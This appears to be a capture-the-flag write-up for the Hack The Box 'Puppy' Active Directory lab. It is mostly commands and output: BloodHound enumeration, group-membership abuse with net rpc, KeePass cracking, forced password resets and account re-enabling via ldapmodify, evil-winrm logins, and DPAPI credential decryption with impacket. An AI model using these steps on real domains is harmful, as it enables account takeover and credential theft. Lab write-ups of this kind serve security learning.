

# Summary

Bloodhound is awesome! for finding targets and exploit possibilities, with guides on how to do it on Active Directory. Netexec is also super good for password testing and enumeration. The Root flag is another story.. yet another new windows topic; DPAPI secrets (when does this Windows stuff you need to learn ever end...) https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets
\# Initial Credentials
HTB: As is common in real life pentests, you will start the Puppy box with credentials for the following account: **levi.james / KingofAkron2025!**

    ┌──(kali㉿kali)-[~]
    └─$ nmap -sV puppy.htb -oN Desktop/Puppy/nmap_sV.txt 
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-24 13:44 EDT
    Nmap scan report for puppy.htb (10.10.11.70)
    Host is up (0.085s latency).
    Not shown: 985 filtered tcp ports (no-response)
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-25 00:44:58Z)
    111/tcp  open  rpcbind       2-4 (RPC #100000)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    2049/tcp open  nlockmgr      1-4 (RPC #100021)
    3260/tcp open  iscsi?
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 127.27 seconds

## Observations:

ldap, kerberos, and a lot of rpc
- must be an active directory thing
- rpc 111 and 135 is not usually there - read up on that
- http on 5985 is open - returns a 404 -but that is also for WinRM
- 445 is open - SMB

chatGPT came up with:
\### **Key Observations**
1. **Active Directory / Windows Services**
- **88/tcp (Kerberos)** -- The host is running a Kerberos service. You could potentially enumerate users with Kerberos (AS-REP roasting, Kerberoasting, etc.).
- **389/tcp (LDAP)** -- Standard AD LDAP service. You can enumerate users, groups, and some domain info.
- **3268/tcp (Global Catalog LDAP)** -- Global catalog for AD, useful for user enumeration and group membership.
- **445/tcp (Microsoft-DS)** -- SMB, likely open for file shares, DC exploitation vectors (null sessions, etc.).
- **464/tcp (kpasswd5)** -- Kerberos password change; sometimes leaks info or is useful for AS-REP attacks.
- **135/tcp, 139/tcp, 593/tcp** -- RPC/NetBIOS services, could allow enumeration of shares, services, or even remote code execution with misconfigurations.

2.  **Other Services**
    - **53/tcp (DNS)** -- Running Simple DNS Plus. Could be used for zone transfers or internal host discovery.
    - **5985/tcp (HTTP/WinRM)** -- Likely WinRM over HTTP. Could be a potential remote management vector.
    - **636/tcp, 3269/tcp** -- TCP wrapped; these are LDAP/Global Catalog over SSL. Likely LDAPS.
3.  **OS and Role**
    - **Service Info** confirms: `Host: DC; OS: Windows`. This is almost certainly a domain controller.
4.  **Filtered Ports**
    - 985 ports are filtered. The host is fairly locked down aside from AD/DC-related services.
      \# Foothold
      \## netexec

### SMB

smb finds a domain controller at PUPPY.HTB :

    ┌──(kali㉿kali)-[~]
    └─$ nxc smb puppy.htb -u '' -p ''                                                             
    SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
    SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\: 

Got the domain name: DC, domain: PUPPY.HTB, (path DC.PUPPY.HTB)

enumrate shares

    nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --shares


Has a 'DEV' folder, access unclear trying smbclient - no access

- above also works on ldap
\### Enumerate users and domains
\#### users


    -Username-
    Administrator
    Guest
    krbtgt
    levi.james
    ant.edwards
    adam.silver
    jamie.williams
    steph.cooper
    steph.cooper_adm

Kerberos service noted..
Lots of groups on the domain some groups are epmty

# Bloodhound

Time for a overview
\## Enumeration
Rusthound-CE
go to a direcrtory where you want loot and unleash the hounds

``` bash
rusthound-ce -d PUPPY.HTB -u levi.James@PUPPY.HTB -z
```

Our levi.james user is member of HR, USERS and Domain Users

and has 1 outbound control:

'GenericWrite' on the developers group, this can be abused -from bloodhound direct:

    GenericWrite to a group allows you to directly modify group membership of the group.

    Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

    net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

    It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

    pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"

    Finally, verify that the user was successfully added to the group:

    net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

    ---

## Initial Foothold

Trying to add a developer user, suspecting levi.james is not in the group yet..

And add the levi.james user using samba 'net' as suggested by Bloodhound

    net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB/levi.james%KingofAkron2025\!" -S DC.PUPPY.HTB

<figure>

<figcaption
aria-hidden="true">Pastedimage20250925095043.png</figcaption>
</figure>

Note! the '\\' in front of, to escape the '!' which is otherwise as special character messing up the string..

We now have READ on the DEV folder, Yay!

    nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -d 'PUPPY.HTB' --shares


\### Exploring DEV
Using SMBclient

    smbclient -U 'PUPPY.HTB\levi.james%KingofAkron2025!' //puppy.htb/DEV


Nothing in projects, the "recovery.kdbx" file looks interesting, download using smbclient get:

    smb: \> get "recovery.kdbx"


\### Pocking at recovery.kbdx
file format ".kdbx is" (google):

There is an article on KeePass 2 here:
https://infosecwriteups.com/brute-forcing-keepass-database-passwords-cbe2433b7beb

The article mentions this tool to manipulate KeePass:
https://github.com/libkeepass/pykeepass

Install in a virtual env:


And a tool for doing the crackjob using kali wordlists based on the above (.py file for download):
https://github.com/toneillcodes/brutalkeepass

Trying the classic wordlist..

    python3 bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt


database password cracked: `liverpool`

#### Contents of recovery.kbdx

This python script using [pykeepass](https://github.com/libkeepass/pykeepass) enumerates the content and prepares text files (users.txt and passwords.txt) for netexec to spray the target...

``` python
from pykeepass import PyKeePass

# Path to your downloaded KDBX file and the password
db_path = 'recovery.kdbx'
password = 'liverpool'  # replace with actual password

# Open the database
kp = PyKeePass(db_path, password=password)


# Open output files
with open('passwords.txt', 'w') as pass_file:
    # Iterate over all entries
    for entry in kp.entries:
        print(entry)

        # print to console
        print(f"Title: {entry.title}")
        print(f"Username: {entry.username}")
        print(f"Password: {entry.password}")
        print(f"URL: {entry.url}")
        print(f"Notes: {entry.notes}")
        print("-" * 40)
        
        # Write to files
        pass_file.write(entry.password + '\n')
        
```

we now have a set up users and password in nice text files to try out.

## User enumeration spray

using netexec to check what access we get:
Messed around with the user names, listed before to match the format of levi.james, and got:

A hit for:

    ANT.EDWARDS
    Antman2025!

BloodHound

``` cypher
MATCH (u:User)
RETURN u
```

Gives a list, the only ones with outbound privileges are:
ADMINISTRATOR (all access)
STEPH.COOPER_ADM (administrators group), this one also has an account without the "ADM" which does not have access - possible pivot later on..

### Enumerate ANT.EDWARDS

Checking shares for ANT.EDWARDS

write on DEV but no additional access compared to levi.james

#### Bloodhound ANT.EDWARDS

ANT.EDWARDS has membership in senior-devs and genericAll on ADAM.SILVER.


According to bloodhound "GenericAll" gives ability to change password on ADAM.SILVER (the pw we found earlier didn't work)

    Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

    Targeted Kerberoast

    A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

    targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'

    The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

    The recovered hash can be cracked offline using the tool of your choice.

    Force Change Password

    Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

    net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

    It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

    pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"

    Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

    Shadow Credentials attack

    To abuse this permission, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

    pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"

    For other optional parameters, view the pyWhisker documentation.

### Foothold on ADAM.SILVER

Changing ADAM.SILVER s password as recommended (remembering to '\\'):

``` bash
net rpc password "ADAM.SILVER" "SuperSecret123\!" -U "PUPPY.HTB/ANT.EDWARDS%Antman2025\!" -S DC.PUPPY.HTB
```

Logging in using the new credentials:

``` bash
nxc smb dc.puppy.htb -u ADAM.SILVER -p SuperSecret123! --shares
```


Hmmm. account disabled..
\#### Enable ADAM.SILVER
ref bloodhound ANT.EDWARDS has GenericAll on ADAM.SILVER with rights to remove deactivation

Tried different approaches:
There is an impacket-setuserinfo (not installed no my machine)
some interactive versions of netexec

ladapmodify seemed the easiest:

``` bash
┌──(kali㉿kali)-[~/Desktop/Puppy]
└─$ ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF

Enter LDAP Password: 
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```

It prompts for ANT.EDWARDS password, which is a bit clunky
the 512 is:
\|Flag\|Hex\|Description\|
\|0x200\|512\|NORMAL_ACCOUNT\|

Checking access:

``` bash
nxc smb puppy.htb -u 'ADAM.SILVER' -p 'SuperSecret123!' 
```


Worked, logging in using evil-winrm

``` bash
evil-winrm -i puppy.htb -u 'ADAM.SILVER' -p 'SuperSecret123!'
```

## USER Flag

on the desktop of ADAM.SILVER

\`597aee344b89facec5c9e91d6bb09817

# Escalation

Poking around as ADAM.SILVER

That would be too easy, STEPH.COOPER from before also denied.

The folder "Backups" with a .zip looks good.... downloading


It's files for a web app


``` bash
┌──(kali㉿kali)-[~/Desktop/Puppy/puppy]
└─$ tree            
.
├── assets
│   ├── css
│   │   ├── fontawesome-all.min.css
│   │   ├── images
│   │   │   ├── highlight.png
│   │   │   └── overlay.png
│   │   └── main.css
│   ├── js
│   │   ├── breakpoints.min.js
│   │   ├── browser.min.js
│   │   ├── jquery.dropotron.min.js
│   │   ├── jquery.min.js
│   │   ├── jquery.scrolly.min.js
│   │   ├── main.js
│   │   └── util.js
│   ├── sass
│   │   ├── libs
│   │   │   ├── _breakpoints.scss
│   │   │   ├── _functions.scss
│   │   │   ├── _html-grid.scss
│   │   │   ├── _mixins.scss
│   │   │   ├── _vars.scss
│   │   │   └── _vendor.scss
│   │   └── main.scss
│   └── webfonts
│       ├── fa-brands-400.eot
│       ├── fa-brands-400.svg
│       ├── fa-brands-400.ttf
│       ├── fa-brands-400.woff
│       ├── fa-brands-400.woff2
│       ├── fa-regular-400.eot
│       ├── fa-regular-400.svg
│       ├── fa-regular-400.ttf
│       ├── fa-regular-400.woff
│       ├── fa-regular-400.woff2
│       ├── fa-solid-900.eot
│       ├── fa-solid-900.svg
│       ├── fa-solid-900.ttf
│       ├── fa-solid-900.woff
│       └── fa-solid-900.woff2
├── images
│   ├── adam.jpg
│   ├── antony.jpg
│   ├── banner.jpg
│   ├── jamie.jpg
│   └── Levi.jpg
├── index.html
└── nms-auth-config.xml.bak

9 directories, 40 files
```

Interesting files are index.html, assets/js/main.js, assets/js/util.js
and ofcourse: `nms-auth-config.xml.bak` which has a set of credentials for the steph.cooper user of interest from before:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>             
```

We now have:

    steph.cooper
    ChefSteph2025!

Throwing that into evil-winrm!

of course that would be too easy... However suspecting its the same user as the STEPH.COOPER_ADM version with admin privileges.

## Looking for Steph's creds

ChatGPT:
On a Windows box, **"old credentials"** or cached credentials can be found in several places depending on what type of credentials you mean (domain, local, application, or network). Here's a structured overview:

------------------------------------------------------------------------

### **1. Windows Credential Manager / Vault**

- **Path:**
  `C:\Users\<User>\AppData\Roaming\Microsoft\Credentials C:\Users\<User>\AppData\Roaming\Microsoft\Protect`
- Stores:
  - Saved RDP credentials (`mstsc`)
  - VPN credentials
  - Some app passwords (Teams, Edge, etc.)
- Encrypted with **DPAPI** tied to the user account.

#### Credentials hold blobs:

Each blob represents a saved credential entry (RDP credential, network share, saved generic credential, etc.). The blob itself is **encrypted** with DPAPI (the Data Protection API) using a key derived from the user's logon secrets (and sometimes machine keys).

#### Protect

Contains the **user's DPAPI master key(s)** --- these are the keys that can decrypt the credential blobs.
\### Download
The recommended way to download credentials using Evil-Winrm is to zip them first (there is no download all, and not working with hidden files)
make variables:

    # run on target (evil-winrm shell)
    $src1 = "$env:APPDATA\Microsoft\Credentials\"
    $src2 = "$env:APPDATA\Microsoft\Protect\"
    $dst1 = "C:\Temp\creds.zip"
    $dst2 = "C:\Temp\keys.zip"

Compress using this complicated poweshell zip command (ChatGPT)

    powershell -Command "Add-Type -AssemblyName System.IO.Compression.FileSystem; [IO.Compression.ZipFile]::CreateFromDirectory('$src1','$dst1')"

Go to the C:`\Temp `{=tex}directory and download

    C:\Temp> download *

It will end up in the Kali \~/home dir

## Cracking

Overall guide here:
https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets

there are 2 keys in the keys folder, the 'non preferred' looks most interesting....


impacket has a tool

    impacket-dpapi masterkey -file keys/S-1-5-21-1487982659-1829050783-2281216199-1107\\556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107


giving: De-crypted key:

    0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Reverse the key to credentials - impacket again with the key from before and the dapi key:

    impacket-dpapi credential -file creds/C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

giving:
Credentials for

    steph.cooper_adm
    FivethChipOnItsWay2025!

Booom EvilWinRm'in

    evil-winrm -i puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' 

Dang.. no key just yet..

But insane outbound control on bloodhound..


Should be able to just look at Administrator folders


a932c294075ea172e467689e11b4a77a
